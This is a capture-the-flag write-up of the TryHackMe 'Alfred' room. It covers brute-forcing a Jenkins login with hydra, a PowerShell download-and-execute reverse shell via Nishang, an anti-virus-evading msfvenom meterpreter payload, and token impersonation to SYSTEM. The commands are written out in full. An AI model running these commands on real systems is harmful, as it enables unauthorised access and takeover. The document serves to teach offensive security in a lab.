

# Alfred

**Date**: 30/03/2022

**Difficulty**: Medium

**CTF**: [https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

---

In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access.

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

# Initial Access

## How many ports are open? (TCP only)




## What is the username and password for the log in panel(in the format username:password)

Let’s visit the webpage:


I’m going to use gobuster to try to discover any accessible directories:

And meanwhile, let’s see the source code of the page:


Nothing useful in the source code. No javascripts loaded or cookies stored. Just a plain webpage.

Back to gobuster we can see that it discovered 2 more pages:


Let’s see if them are different from the lowercase one:

Yes, those 2 results are the same at the first one, so the server probably is not differentiating uppercase from lowercase

So, it makes no sense scanning the server with that wordlist, let’s switch to the lowercase one:


Maybe is not a directory or a file, and maybe is a subdomain?

Back to the scan results, I forgot that the port 8080 is also open and running a http-proxy. I’m going to visit it with the web browser:


Yep, a login page.

This is the source code:


The files it loaded: 


And the cookie it created:


Let’s see what happens when we try to log in with random credentials:


A new text appears telling us that the credentials are not correct.

Would the form be vulnerable to SQL injection?


It doesn´t look like. Time to bruteforce it? Before that let’s search if Jenkins use a default username and password when installed


Yep, according to [this website](https://www.shellhacks.com/jenkins-default-password-username/) Jenkins use admin as default username. The site also says that the password is stored in a file located inside a folder named secrets. Interesting.

We will use hydra to try to bruteforce the password, but we need to know the petition type (GET or POST) and the url we will send that petition. Let’s analyse a petition using BurpSuite:


As we can see in the first line of the request intercepted that the petition type is POST and the url where we are sending the request is `/j_acegi_security_check`

We can also see in the last line that the data sent via post is `j_username` and `j_jpassword`.

Now we are ready to set up an hydra attack using the fasttrack wordlist:

```jsx
hydra -l admin -P /usr/share/wordlists/fasttrack.txt 10.10.169.165 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:F=Invalid" -V

```

As the port is not the common one, I used the -s flag.


After a few minutes hydra discovers the password. Let’s use it to try to log in and see if it’s correct:


Yeah it’s correct.

## Find a feature of the tool that allows you to execute commands on the underlying system.

<aside>
💡 When you find this feature, you can use this command to get the reverse shell on your machine and then run it: *powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port*

</aside>

<aside>
💡 You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: *python3 -m http.server*

</aside>

Under the Configure Project menu I found this:


It looks like I’m able to execute code in the mathine after Jenkins builds the machine. Interesting. Let’s see if we can exploit this feature ad the room explains it.

First of all let’s download the powershell scripts, open a python http server and a netcat listener in our machine:


And now let’s use the script to invocate the powershell:

```jsx
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 1234
```


After saving the configuration, we have to build the project, I think it’s done by using the Build Now button of the menu:


It starts to build...


We got a download from the machine!


And also the reverse shell!

## What is the user.txt flag?

Exploring directories I found this one that seems interesting as it has some keys. Let’s remind it for later:


After some navigation we found the file user.txt:


# Switching shells

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`


This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`


To download it, we have to build the project again.


Now the file is in the target machine. We have to launch again a revshell to execute that file (the port should not be the same we configurated with msfvenom before, as it will be used to the meterpreter connection:


Before running this program, ensure the handler is set up in metasploit:

`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run`


This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell

`Start-Process "shell-name.exe"`


This should spawn a meterpreter shell for you!


# Privilege Escalation

Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

- user SIDs(security identifier)
- group SIDs
- privileges

amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

There are two types of access tokens:

- primary access tokens: those associated with a user account that are generated on log on
- impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).

## View all the privileges using `whoami /priv`


You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. 

## Enter: `load incognito` **to load the incognito module in metasploit.

Please note, you may need to use the `use incognito` **command if the previous command doesn't work. Also ensure that your metasploit is up to date.


## To check which tokens are available, enter the `list_tokens -g`. We can see that the *BUILTIN\Administrators* token is available.


## Use the `impersonate_token "BUILTIN\Administrators"` command to impersonate the Administrators token. What is the output when you run the *getuid* command?


Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. 

## First use the `ps` **command to view processes and find the PID of the services.exe process.


## Migrate to this process using the command `migrate PID-OF-PROCESS`


## Read the root.txt file at C:\Windows\System32\config

